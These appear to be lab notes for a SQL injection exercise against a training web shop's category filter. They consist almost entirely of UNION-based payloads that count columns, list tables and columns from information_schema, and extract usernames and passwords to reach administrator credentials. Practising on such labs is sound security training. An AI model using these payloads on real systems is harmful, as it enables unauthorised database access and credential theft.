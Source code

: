 #SQL injection attack, listing the database contents on non-Oracle databases
##determine number of col
category=Pets' ORDER BY 3--

##determine which col contain text data
category=Pets' UNION SELECT 'A','B' --

##retrieve the list of tables in the DB
category=Pets' UNION SELECT table_name,table_type FROM information_schema.tables --

##find the name of the table with credentials (view VS base table)

##list column names from table users_einfgr
category=Pets' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='users_einfgr' --

##find the name of the columns for username,password

##list users(username,password) from table users_einfgr
category=Pets' UNION SELECT username_dijibu,password_lbhtwt FROM users_einfgr --

##find the administrator credentials



